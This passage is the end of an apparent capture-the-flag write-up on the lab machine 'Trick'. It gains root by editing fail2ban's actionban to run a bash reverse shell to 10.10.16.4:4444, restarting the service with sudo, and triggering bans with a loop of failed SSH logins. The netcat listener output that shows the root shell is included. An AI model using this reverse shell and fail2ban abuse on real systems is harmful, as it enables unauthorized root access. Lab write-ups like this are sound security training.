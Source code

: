 ```bash
actionban = /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/4444 0>&1'
```

Now we need to restart the service.

```bash
sudo /etc/init.d/fail2ban restart
```

And the last thing is setting up a listener and brute forcing the ssh service to trigger the ban.

```bash
for i in {1..7}; do sshpass -p 'asdfasfd' ssh michael@trick.htb; done
```

```terminal
┌──[10.10.16.4]-[sirius💀parrot]-[25-07-07 18:42]
└──╼[★]$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.166] 37718                                                                                                                                   
bash: cannot set terminal process group (6888): Inappropriate ioctl for device                                                                                                                
bash: no job control in this shell
root@trick:/#
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
